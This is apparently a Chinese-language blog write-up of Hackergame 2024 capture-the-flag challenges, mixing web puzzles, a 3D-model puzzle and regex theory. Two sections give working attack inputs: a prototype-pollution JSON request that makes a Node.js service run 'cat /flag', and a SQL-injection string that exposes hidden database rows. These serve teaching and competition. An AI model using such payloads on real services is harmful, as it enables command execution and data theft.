





+++
name = "hackergame-2024"
title = "Hackergame 2024 Writeup"
tags = ["Hackergame", "CTF"]
date = "2024-11-09"
update = "2024-11-09"
enableGitalk = true
+++

## 签到
60 秒肯定输入不完，因为平均 5 秒需要输入一个输入框。直接 F12，可以看到输入框的 HTML 代码大概是这样：

```HTML
<input type="text" class="input-box" id="zh" placeholder="中文：启动" onpaste="return false">
```

并且所有输入框需要输入的内容都在冒号后面，因此考虑用 JavaScript 来填写所有输入框。从元素的 `placeholder` 属性中读取提示，然后利用 `.split()` 来分割并提取冒号后的内容。最后填写到输入框中。

```JavaScript
list = document.getElementsByClassName("input-box");
for (let box of list) {
  hint = box.placeholder;
  word = hint.split(/[：:]/)[1].trim();
  box.value = word;
}
```

在浏览器中执行这段代码即可得到 Flag。

Flag 为 `flag{w3!Come-To-H4ckergaM3-ANd-enJOY-H@Ck!N9-zOz4}`。

## 喜欢做签到的 CTFer 你们好呀
在 Google 上搜索 UTSC CTF，可以找到 USTC NEBULA 战队在 [GitHub 上的招新安排页面](https://github.com/Nebula-CTFTeam/Recruitment-2024)。但在这个页面并不能找到 Flag，因此尝试在 UTSC NEBULA 的 [GitHub 组织页面](https://github.com/Nebula-CTFTeam)中寻找线索。可以看到 `README.me` 中有指向 [NEBULA 主页](https://www.nebuu.la/)的链接。

主页中显示的是一个网页上运行的交互式终端模拟器，我们应该来对地方了。用 `help` 指令查看可以使用的命令，然后全都尝试一遍，当执行 `env` 指令时，可以看到 env 的输出：

```properties
PWD=/root/Nebula-Homepage
ARCH=loong-arch
NAME=Nebula-Dedicated-High-Performance-Workstation
OS=NixOS❄️
FLAG=flag{actually_theres_another_flag_here_trY_to_f1nD_1t_y0urself___join_us_ustc_nebula}
REQUIREMENTS=1. you must come from USTC; 2. you must be interested in security!
```

这里其中便包含了第一个 Flag。那么第二个 Flag 在哪呢？使用 `ls` 指令可以列出当前目录下的所有文件和目录：

```plaintext
Awards
Members
Welcome-to-USTC-Nebula-s-Homepage/
and-We-are-Waiting-for-U/
```

如果尝试 `cd` 会发现需要 root 权限才能 `cd`，而尝试 `sudo` 则会跳转到[奶龙](https://www.bilibili.com/bangumi/play/ss40551)。因此考虑使用 `ls` 指令直接列出两个目录中的内容。当执行 `ls and-We-are-Waiting-for-U/` 时可以看到输出产生了一些变化，列出了隐藏的文件：

```plaintext
.flag
.oh-you-found-it/
Awards
Members
Welcome-to-USTC-Nebula-s-Homepage/
and-We-are-Waiting-for-U/
```

事实上 `ls -a` 也可以列出这个隐藏的文件，最后执行 `cat .flag` 得到第二个 Flag：

```plaintext
flag{0k_175_a_h1dd3n_s3c3rt_f14g___please_join_us_ustc_nebula_anD_two_maJor_requirements_aRe_shown_somewhere_else}
```

## 打不开的盒
下载 STL 文档，然后使用任意 3D 软件导入，在这里我使用了 Blender。删除上顶面和侧面后即可看到在内部底面的 Flag 了。



Flag 为 `flag{Dr4W_Us!nG_fR3E_C4D!!w0W}`。

## 比大小王
对面实在是太快了喵！所以考虑用 JavaScript 自动化，首先可以想到的是检测两边数字的大小，然后模拟点击。但实际上这样做并不能让我们做得比对方更快，因为按下之后会有延迟，然后才会显示下一道题目。因此我们需要用别的方式超过对面。

直接 F12，观察页面源码可以看到本地的 JavaScript 代码直接包裹在了 `script` 标签中。（[完整的 `script` 中的内容](compare.js)）

可以看到游戏开始时会从远程获取题目列表并存储到本地：
```JavaScript
function loadGame() {
    fetch('/game', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({}),
    })
    .then(response => response.json())
    .then(data => {
        state.values = data.values;
        /* -- omitted -- */
    })
    /* -- omitted -- */
}
```

在按下按键时会调用 `chooseAnswer()` 函数：
```JavaScript
document.getElementById('less-than').addEventListener('click', () => chooseAnswer('<'));
document.getElementById('greater-than').addEventListener('click', () => chooseAnswer('>'));
```

在 `chooseAnswer()` 函数中，会将选择添加到 `state.inputs` 这个列表中，检测我们的答案是否正确。如果分数达到了 100，则会调用 `submit()` 提交我们的答案。
```JavaScript
function chooseAnswer(choice) {
    if (!state.allowInput) {
        return;
    }
    state.inputs.push(choice);
    let correct;
    if (state.value1 < state.value2 && choice === '<' || state.value1 > state.value2 && choice === '>') {
        correct = true;
        state.score1++;
        document.getElementById('answer').style.backgroundColor = '#5e5';
    } else {
        correct = false;
        document.getElementById('answer').style.backgroundColor = '#e55';
    }
    /* -- omitted -- */
    state.allowInput = false;
    setTimeout(() => {
        if (state.score1 === 100) {
            submit(state.inputs);
        } else if (correct) {
            /* -- omitted -- */
        } else {
            state.allowInput = false;
            state.stopUpdate = true;
            document.getElementById('dialog').textContent = '你选错了，挑战失败！';
            document.getElementById('dialog').style.display = 'flex';
        }
    }, 200);
}
```

`state` 对象可以在浏览器中访问，因此考虑编写 JavaScript 代码，读取题目并将答案写入一个列表中，最后调用 `submit()`：
```JavaScript
answers = [];
for (i = 0; i < 100; i++) {
    ans = state.values[i][0] > state.values[i][1] ? '>' : '<';
    answers.push(ans);
}
submit(answers);
```

在游戏开始后，在浏览器中运行这段代码即可得到 Flag。

Flag 为 `flag{!-4M-7he-hACk3r-k!Ng-OF-cOmP@r!n9-nuM63R5-Z024}`。

## Node.js is Web Scale
题目中运行的服务是由 Node.js 编写的，在页面中点击下方的 `View source code` 即可看到 Node.js [源代码](node-web-scale-source.js)。

我们的突破点在于 `/execute` 请求， `/execute?cmd=<COMMAND>` 会执行 `cmds[<COMMAND>]` 中一个字符串形式存储的指令，并将执行结果返回。代码注释中说明 `cmds` 是常量，因此是绝对安全的。但 `cmds` 中的对象真的**完全是常量吗**？ 

可以看到 `/set` 接受 POST 请求提交的一个 JSON 对象，并且通过以 `.` 分割的 `key`，一步一步从 `store` 开始，使用 `[key]` 访问对象的属性。尽管主页中仅能设置 `value` 为字符串，但我们仍然可以通过自行构造 POST 请求来设置其他类型的值。这里将 `obj` 键的值设置为一个孔德 JSON 对象：
```json
{
    "key": "obj",
    "value": {}
}
```

在 JavaScript 中，这个值会被解析为一个空的 JavaScript Object。在服务器上，这个值会被存储到 `store.obj` 中。

在这里就需要介绍 JavaScript 的**原型链**机制了：

> JavaScript 对象是动态的属性（指其自有属性）“包”。JavaScript 对象有一个指向一个原型对象的链。当试图访问一个对象的属性时，它不仅仅在该对象上搜寻，还会搜寻该对象的原型，以及原型的原型，依次层层向上搜索，直到找到一个名字匹配的属性或到达原型链的末尾。
> From [MDN - 继承与原型链](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Inheritance_and_the_prototype_chain)

在 JavaScript 中，通过访问一个对象的 `__proto__` 属性即可访问这个对象的原型。并且访问同样可以通过 `[key]` 进行。
`cmds` 和 `store.obj` 都是一个 Object，而它们在原型链上共享了**Object 原型**。因此可以构造一个 `/set` 请求来修改/添加 Object 原型的属性。我们向 Object 原型中添加 `our_cmd` 属性，这样在访问 `cmds["our_cmd"]` 时，即使 `cmds` 本身不具有 `our_cmd` 属性，也会顺着原型链寻找这个属性，直到找到我们在 Object 原型中添加的属性。

构造一个 `/set` 请求，向 Object 原型中添加 `our_cmd` 属性，并将这个属性的值设置为我们要执行的指令：
```json
{
    "key": "obj.__proto__.our_cmd",
    "value": "cat /flag"
}
```

最后请求 `/execute?cmd=our_cmd`，即可成功执行我们构造的指令，获取 Flag。

Flag 为 `flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_327578b540}`。

## PaoluGPT
### 千里挑一
第一感觉是 Flag 会藏在所有的聊天记录中。由于一个一个看实在是太麻烦了，因此用 JavaScript 自动化访问所有聊天记录页面，并检查页面中是否存在 `flag` 字符串：
```JavaScript
links = document.getElementsByTagName("a");
(async () => {
  for (let link of links) {
  	url = link.href;
  	resp = await fetch(url);
  	text = await resp.text();
  	if (text.search("flag") != -1) {
      console.log(url);
    }
	}
})()
console.log("Getting executed...")
```

在 Console 中执行这段代码，等待一段时间。它应该会输出包含了 `flag` 字符串的页面的 URL。进入这个页面查找 `flag` 字符串，即可在页面底部找到第一个 Flag。

Flag 为 `flag{zU1_xiA0_de_11m_Pa0lule!!!_7c2b2aa451}`。

### 窥视未知
这道题目还给了题目附件，而附件中是这道题目的服务器上运行的 Python 代码。观察这段代码可以看到：
```python
@app.route("/list")
def list():
    results = execute_query("select id, title from messages where shown = true", fetch_all=True)
    messages = [Message(m[0], m[1], None) for m in results]
    return render_template("list.html", messages=messages)

@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

`/list` 请求会在 `message` 表中请求所有的 `shown` 为 `true` 的聊天记录，并将用它们的 id 和标题渲染一个页面展示出来。这也暗示了，在 `message` 中还存在 `shown` 为 `false` 的聊天记录。

`/view` 请求直接将 `conversation_id` 参数插入了 SQL 请求中，并且没有经过任何过滤。所以可以使用 SQL 注入来查找 `shown` 为 `false` 的聊天记录。

构造一个字符串使得 SQL 语句的字符串部分提前结束，在条件中添加 `or shown = false`，并注释掉后面的单引号：
```plaintext
' or shown = false /*
```

这样完成后的 SQL 语句应该是这样的：
```SQL
select title, contents from messages where id = '' or shown = false /*'
```

最后请求 `/view?conversation_id=' or shown = false /*` 即可进入被隐藏的聊天记录页面中。进入这个页面查找 `flag` 字符串，即可在页面底部找到第二个 Flag。

Flag 为 `flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_6e62416061}`。

## 强大的正则表达式
这道题基本上是纯粹的算法题，要求只使用 `0123456789()|*` 构建正则表达式匹配数字。

### Easy
通过查看附件中的代码，可以看到 Easy 难度要求我们用 Regex 匹配可以被 16 整除的十进制数字。

16 的倍数具有一些良好的特性，例如：
- 每经过 400，最低的 2 位会循环一次
- 每经过 2000，最低的 3 位会循环依次
- 是否是 16 的倍数仅取决于最低的 4 位

观察 16 倍数的数列：
```python
>>> [i * 16 for i in range(0,126)]
[0, 16, 32, 48, 64, 80, 96, 112, 128, 144, 160, 176, 192, 208, 224, 240, 256, 272, 288, 304, 320, 336, 352, 368, 384, 400, 416, 432, 448, 464, 480, 496, 512, 528, 544, 560, 576, 592, 608, 624, 640, 656, 672, 688, 704, 720, 736, 752, 768, 784, 800, 816, 832, 848, 864, 880, 896, 912, 928, 944, 960, 976, 992, 1008, 1024, 1040, 1056, 1072, 1088, 1104, 1120, 1136, 1152, 1168, 1184, 1200, 1216, 1232, 1248, 1264, 1280, 1296, 1312, 1328, 1344, 1360, 1376, 1392, 1408, 1424, 1440, 1456, 1472, 1488, 1504, 1520, 1536, 1552, 1568, 1584, 1600, 1616, 1632, 1648, 1664, 1680, 1696, 1712, 1728, 1744, 1760, 1776, 1792, 1808, 1824, 1840, 1856, 1872, 1888, 1904, 1920, 1936, 1952, 1968, 1984, 2000]
```

假设这些数字都用 0 填充到 4 位，会发现：
- 如果较高的 2 位数字除以 4 余数为 0，则较低的 2 位一定是 `00, 16, 32, 48, 64, 80, 96` 中的其中一个
- 如果较高的 2 位数字除以 4 余数为 1，则较低的 2 位一定是 `12, 28, 44, 60, 76, 92` 中的其中一个
- 如果较高的 2 位数字除以 4 余数为 2，则较低的 2 位一定是 `08, 24, 40, 56, 72, 88` 中的其中一个
- 如果较高的 2 位数字除以 4 余数为 3，则较低的 2 位一定是 `04, 20, 36, 52, 68, 84` 中的其中一个

把它们列出来：
``` python
bases16 = [["00", "16","32","48","64","80","96"],  # 00 04 08 12 16 20 24 ...
           [      "12","28","44","60","76","92"],  # 01 05 09 13 17 21 25 ...
           [      "08","24","40","56","72","88"],  # 02 06 10 14 18 22 26 ...
           [      "04","20","36","52","68","84"]]  # 03 07 11 15 19 23 27 ...
```

现在分别列出 2 位数以内，除以 4 余数分别为 0, 1, 2, 3 的数字（不足 2 位填 0）：
```python
bases4 = [[f"{4 * i + j:02d}" for i in range(0, 25)] for j in range(0, 4)]
```

例如 2 位数以内，除以 4 余数为 0 的数字，和上面列出的较低的 2 两位拼凑起来，正则表达式就是：
```re
((00|04|08|12|16|20|24|28|32|36|40|44|48|52|56|60|64|68|72|76|80|84|88|92|96)(00|16|32|48|64|80|96))
```

对另外几个也同样拼凑，最后加上 `(0|1|2|3|4|5|6|7|8|9)*` 来匹配任何 4 位以上的数字，就可以得到能够匹配 4 位及以上的 16 的倍数的正则表达式：
```re
((0|1|2|3|4|5|6|7|8|9)*(((00|04|08|12|16|20|24|28|32|36|40|44|48|52|56|60|64|68|72|76|80|84|88|92|96)(00|16|32|48|64|80|96))|((01|05|09|13|17|21|25|29|33|37|41|45|49|53|57|61|65|69|73|77|81|85|89|93|97)(12|28|44|60|76|92))|((02|06|10|14|18|22|26|30|34|38|42|46|50|54|58|62|66|70|74|78|82|86|90|94|98)(08|24|40|56|72|88))|((03|07|11|15|19|23|27|31|35|39|43|47|51|55|59|63|67|71|75|79|83|87|91|95|99)(04|20|36|52|68|84))))
```

而 3 位以及以下的数字，由于数量比较少，因此可以考虑直接打表：
```python
fixed = [str(i) for i in range(0, 1000, 4)]
```

然后将这些固定的数字和上方的正则表达式拼凑在一起就可以了。在终端中提交后即可得到 Flag。

Flag 为 `flag{p0werful_r3gular_expressi0n_easy_5671700122}`。

### Medium
通过查看附件中的代码，可以看到 Medium 难度要求我们用 Regex 匹配可以被 13 整除的**二进制数字**。

13 的性质并不是很好，因此恐怕像 Easy 难度那样「注意到」是行不通的了。但是这里可以使用状态机来进行匹配，对于二进制数字来讲，在末尾加上 0 相当于将数字乘以 2；在末尾加上 1 相当于将数字乘以 2 再加上 1。

假设状态编号 n 表示「现在的数字为 k % 13 = n」。在状态 n 时每次读到下一个字符时会有两种状态转移：
- 读到 0 时，在末尾加上 0 之后的数字 k' = 2k，新的状态为 k' % 13 = **2n % 13**
- 读到 1 时，在末尾加上 1 之后的数字 k' = 2k + 1，新的状态为 k' % 13 = **(2n + 1) % 13**

这个自动机在开始匹配时的状态为 0。在自动机运行完之后，如果处在状态 n，则说明这个二进制数字除 13 余 n。

构建了这个状态机之后，就需要将它转化为正则表达式。我们需要匹配可以被 13 整除的二进制数字，因此起始状态和终止状态都为 0。

状态机转化到正则表达式的思想是一个个**删除中间的状态**（起始状态和终止状态之外的状态），最后将状态机转化为只有一个状态。删除中间的状态 q 时，我们需要将所有经过状态 q 的路径拼接起来。例如如果有 `p -> q -> r` 这样一条路径，则需要将 `p -> q` 和 `q -> r` 的状态转移拼接起来，得到一条 `p -> r` 的状态转移。

这里以「匹配 4 的倍数」的状态机举例：



现在删除状态 3。可以看到，有一条经过 3 的路径 `1 --(1)-> 3 --(0)-> 2`。
由于状态 3 也可以转移到自己，因此实际上路径中还可以插入任意多个 `3 --(1)-> 3` 的转移，形如 `1 --(1)-> 3 --(1)-> 3 --(0)-> 2`。将这些状态转移拼接起来即可得到一条新的由 1 指向 2 的转移路径，转移条件为接下来的数字匹配 `11*0` 这个表达式。

由于 1 本身已经有一条由 1 指向 2 的转移路径了，因此将 `1 --(11*0)-> 2` 这个转移与原来的 `1 --(0)-> 2` 合并，得到新的转移路径。对其他的所有路径做同样的操作（在这个例子中没有其他的路径了），删除状态 3，得到如下的状态机：



现在删除状态 2。可以看到，有两条经过 2 的路径：
- `1 --(0|11*0)-> 2 --(0)-> 0`
- `1 --(0|11*0)-> 2 --(1)-> 1`

由于状态 2 无法转移到自己，因此直接将路径上两个状态转移拼接到一起即可。拼接后得到的路径为：
- `1 --((0|11*0)0)-> 0`
- `1 --((0|11*0)1)-> 1`

删除状态 2，得到如下的状态机：



现在删除状态 1。可以看到现在只剩下一条经过 1 的路径了：
```plaintext
0 --(1)-> 1 --((0|11*0)0)-> 0
```

由于 1 也可以转移到自己，因此在 `0 -> 1` 和 `1 -> 0` 之间可以插入任意多个 `(0|11*0)1`。拼接之后的转移路径的正则表达式为 `1((0|11*0)1)*(0|11*0)0`。由于 0 已经有一条到 0 的转移路径了，因此将这两条路径合并，最后由 0 到 0 的转移路径的正则表达式为 `(1((0|11*0)1)*(0|11*0)0)|0`。

删除状态 1，得到如下的状态机：



我们可以经过任意次这个状态转移，由 0 到达 0，因此最终的正则表达式为：
```re
((1((0|11*0)1)*(0|11*0)0)|0)*
```

对于「匹配能被 13 整除的二进制数」，我们也照仿照以上的方式构造正则表达式。由于 13 的状态数较多，因此选择用 Python 脚本来构造这个正则表达式：

（代码待补全）

最后，建议将 Token、难度和正则表达式写在同一个文件中，然后：
```
nc XXXXXX:XXX 13.ans
```

即可得到 Flag。

Flag 为 `flag{pow3rful_r3gular_expressi0n_medium_70a46e715e}`。

参考资料：
[用正则表达式匹配3的任意倍数 - 腾讯云开发者社区](https://cloud.tencent.com/developer/article/1777692)